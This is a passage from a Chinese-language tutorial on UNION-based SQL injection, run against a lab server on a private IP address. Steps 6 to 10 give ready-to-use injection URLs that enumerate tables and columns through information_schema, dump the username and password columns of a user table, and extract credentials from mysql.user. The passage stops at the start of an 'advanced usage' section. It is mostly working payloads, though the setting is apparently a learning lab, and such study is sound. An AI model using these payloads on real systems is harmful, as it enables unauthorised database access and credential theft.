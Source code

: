 ![image-20220719210741399](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207192107464.png)

**6、使用`information_schema`进行所有内容查询，得知库名后首先查询表**

`table_shcema、schema_name`：数据库名称

`table_name`：表名

`column_name`：列名

```sql
http://192.168.72.148/security/read.php?id=88 union select 1,2, (select table_name from information_schema.tables where table_schema='learn' limit 1,1) ,4,5,6		#查询表名
```

**7、根据库名和表名查出所有的列名**

```sql
/security/read.php?id=88 union select 1,2, (select group_concat(column_name) from information_schema.columns where table_schema='learn'  and table_name='user') ,4,5,6
```

![image-20220719213503259](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207192135316.png)

```sql
#也可查内置的mysql数据库中的参数、数据，比如user表
http://192.168.72.148/security/read.php?id=88 union select 1,2, (select  concat(User,'==',Password)  from mysql.user limit 0,1) ,4,5,6
```

![image-20220719214110685](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207192141744.png)

**8、知道表名、列名，可以直接查出表的内容**

```sql
/security/read.php?id=88 union select 1,2, (select group_concat(password) from user) ,4,5,6
```

![image-20220719214244864](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207192142918.png)

**9、使用`concat`连接列值，可以一次取出多列**

```sql
/security/read.php?id=88 union select 1,2, (select group_concat(username,':',password) from user) ,4,5,6
```

![image-20220719214437716](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207192144768.png)

**10、如果查询出多列，只能显示一列，则可以使用`limit`**

```sql
http://192.168.72.148/security/read.php?id=88 union select 1,2, (select  concat(User,'==',Password)  from mysql.user limit 0,1) ,4,5,6		--0,1表示从第0行开始，取1列
```

### 三、进阶用法

**1、使用`concat_ws`指定分隔符，比`concat`更加方便**

